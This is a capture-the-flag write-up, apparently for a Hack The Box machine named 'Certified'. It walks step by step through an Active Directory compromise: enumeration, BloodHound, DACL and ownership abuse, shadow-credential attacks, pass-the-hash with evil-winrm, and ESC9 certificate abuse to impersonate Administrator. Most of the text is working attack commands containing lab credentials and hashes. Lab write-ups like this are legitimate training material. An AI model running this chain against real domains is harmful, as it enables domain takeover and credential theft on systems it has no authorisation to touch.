







#### Nmap scan

```bash
sudo nmap -sC -sV 10.129.64.49 -p- -Pn -A
```

SMB -enumeration 

```bash 
 smbmap -H 10.129.231.186 -u judith.mader -p judith09 -r

```

Lets start with certipy-ad to check with any vulnerable certificate

```bash
certipy-ad find -u judith.mader -p judith09 -dc-ip 10.129.91.35 -target-ip 10.129.91.35 -vulnerable -enable -stdout
```

There is no vulnerable certificate in it so lets go with bloodhound 

```bash 
bloodhound-python -u judith.mader -p judith09 -dc 'DC01.certified.htb' -d 'certified.htb' -c all -ns 10.129.91.35

```




we can see that Judith have WriteOver Privelege on the management domain

```bash
owneredit.py -action write -new-owner 'judith.mader' -target 'Management' certified.htb/judith.mader:'judith09'
```
we are changing the ownership of manahement domain, owneredit.py 
no the owner of the domain is judith.mader

or you can use the tool called **Bloody-AD** to change the ownership

```bash
bloodyAD --host "$IP" -d "certified.htb" -u "judith.mader" -p "judith09" set owner management judith.mader
```

Now we gonna give the judith.mader full control over the target managment group. for that we use **dacledit**.**py** 

```bash 
python3 dacledit.py -action write -rights 'FullControl' -inheritance -principal 'judith.mader' -target 'management' certified.htb/judith.mader:'judith09'

```

so we succesfully added the judith.mader to managment domain with **FullControl** Now we can Judith to the domain

```bash 
net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "dc01.certified.htb"
```

After adding the judith to the management we can check if he is been successfully added  or not

```bash 
net rpc group members "management" -U "certified.htb"/"judith.mader"%"judith09" -S "dc01.certified.htb"
```




With Genric-WriteALL rights we can abuse managment_svc acciount by shadow-credential attack 


```bash 
python3 /home/penguin/Downloads/Escape-Two/pywhisker/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```


this give us pfx file which we can use to authenticate as the managment_svc user
using gettgtpkinit.py we can genrate TGT  ticket which can used to extract hashes using the **getnethash**.**py**

```bash
sudo python3 /home/penguin/Downloads/certip/PKINITtools/gettgtpkinit.py \
    -cert-pfx Ab8ZSINj.pfx \
    -pfx-pass 'glD21nOR0tFk6k8SBA6N' \
    -dc-ip dc01.certified.htb \
    certified.htb/management_svc \
    management_svc.ccache
```



This will create a Kerberos ticket called management_svc.ccache file, which we can export and use the key this output provides in conjunction with getnthash.py from the same toolkit to get the NTLM hash of the management_svc user.

```bash 
python3 getnthash.py -key 29a3e9985b3a4ecd8e58ec54a24c460671449986e33d8e2d997d012aae8a7f90 certified.htb/management_svc
```




We got the NTLM hash we can use evil-winrm to login as managment_svc with pass the hash
```bash
evil-winrm -i certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584 
```

we got the first flag

Lets futhet enumerate if we have any priveleged access over the other domain




As we can see the managment_svc have genricAll **Right** over the CA_OPERATOR so lets start overagin with shadow Credential attack

```bash
python3 /home/penguin/Downloads/certip/pywhisker/pywhisker.py -d "certified.htb" -u "management_svc" -H "a091c1832bcdd4677c28b5a6a1295584" --target "ca_operator" --action "add"
```

using gettgtpkinit.py we can genrate TGT  ticket which can used to extract hashes using the **getnethash**.**py**

```bash
sudo python3 /home/penguin/Downloads/certip/PKINITtools/gettgtpkinit.py \ -cert-pfx CWcto8DA.pfx \ -pfx-pass 'eEEB8DvaIB7PrEgGoHl3' \ -dc-ip dc01.certified.htb \ certified.htb/ca_operator \ ca_operator
```
we Obtained the hash now we **b4b86f45c6018f1b664f70805f45d8f2**

Now lets check the certificate weather it vulneranle or not with certipy tool
```bash
certipy-ad find -dc-ip 10.129.56.4 -vulnerable -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -stdout 
```
and we found the ESC9 vulnerablity 
With the GenricALL permission over CA_operator we can request vulnerable certificate from the vulnerable template 

We are modifying the target user’s UPN to match the identity we want to impersonate in our case its Administrator (DA)

This is important because when we request the certificate later, the UPN value will be used during certificate mapping. If the UPN matches a privileged account, the DC may map the certificate to that account during authentication, allowing us to impersonate it.

```bash
certipy-ad account update -dc-ip 10.129.56.4 -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator

```
then we gonna request for a certificate in that UPN
```bash
 certipy-ad req -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.56.4
 
```
Note before that we need to change the ca_operator UPN mus be changed to the orginal one 

```bash
certipy-ad account update -dc-ip 10.129.56.4 -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb

```

Then we can authenticate to with administrator.pfx gain the hash and use that  hash with evil-winrm to gain foothold

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.56.4 -domain certified.htb
```




Using Evil-**winrm**
```bash
evil-winrm -i certified.htb -u Administrator -H 0d5b49608bbce1751f708748f67e2d34 
```

